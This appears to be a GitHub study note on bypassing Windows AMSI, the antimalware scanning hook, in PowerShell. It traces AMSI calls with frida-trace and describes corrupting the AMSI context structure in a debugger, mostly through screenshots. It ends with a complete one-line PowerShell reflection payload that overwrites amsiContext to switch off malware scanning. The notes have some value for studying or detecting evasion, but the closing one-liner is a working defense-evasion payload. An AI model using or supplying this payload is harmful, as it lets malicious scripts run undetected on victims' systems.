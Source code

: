 c:\Users\test\AppData\Local\Packages\PythonSoftwareFoundation.Python.3.13_qbz5n2kfra8p0\LocalCache\local-packages\Python313\Scripts>frida-trace -p 9112 -x amsi.dll -i Amsi*

Used to trace amsi call 
JS Script provide what is being run on powershell
"return value is: 1" indicate clean powershell

![image](https://github.com/user-attachments/assets/08fe9874-da2e-475b-93e9-35ad830ba9c3)

 "return value is: 32768" indicate malicious powershell
 ![image](https://github.com/user-attachments/assets/ea544184-6600-4b97-84a2-e8a7e41394f9)

Can be bypass by splitting and cocactnation 
![image](https://github.com/user-attachments/assets/caa682ad-2988-4f6c-87ff-1218fb2a4852)

Can also be bypassed with reflection

Attach powershell process
![image](https://github.com/user-attachments/assets/983a3d20-d75b-4ac3-a0e8-02e35356b5d0)

Dump context of memory structure
![image](https://github.com/user-attachments/assets/553281ab-2398-4f6a-a4ea-2668573922ef)

First 4 is equal to AMSI
![image](https://github.com/user-attachments/assets/e1714b54-17e5-42c8-a51a-7964175faf57)

Observe context struction in action to determine if the first 4 bytes are reference in anyway
Use unassemble and amsi open session function
![image](https://github.com/user-attachments/assets/612f757c-05dc-4227-8f1d-7d5083ec3267)

Interesting context structor 
![image](https://github.com/user-attachments/assets/580013e4-1da0-497f-8e51-ffbc5ce17aa0)

Tracing context structor further 
![image](https://github.com/user-attachments/assets/b32ed358-c3bc-4e03-b4b7-07467c973368)

Exploit is cause by forcing an error 
![image](https://github.com/user-attachments/assets/64d042f9-21ef-4a26-a4e9-e4ddc2bbeaa0)

Forcing and error and trigger by putting a powershell command
![image](https://github.com/user-attachments/assets/b28edb49-1d0d-4d36-9b8c-49a1f000e121)

Modify first four byte of context structure
![image](https://github.com/user-attachments/assets/e03c7326-ad58-4edd-ae37-e486a77359b8)

Continue modification and continue running
![image](https://github.com/user-attachments/assets/20d135dd-73ab-4b1d-930b-95059c5f6ba9)

AMSI open session has exited which indicate it has been shutdown
![image](https://github.com/user-attachments/assets/80596bba-9d0f-4c31-a0f4-c09b5cf6f28c)

Not flagged as malicious anymore
![image](https://github.com/user-attachments/assets/d2cce5be-9481-48ea-9bad-227aa2073ce9)

By corrupting AMSI context header we shut down AMSI without affecting powershell. Complete command is in github on debugger.txt

Method too manual let try doing it from powershell using reflection
command log given in: powershell-reflection.txt
not flagged
![image](https://github.com/user-attachments/assets/ba5f3e13-99b3-44d1-8587-39bfe1a88f82)

One string execution:
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)



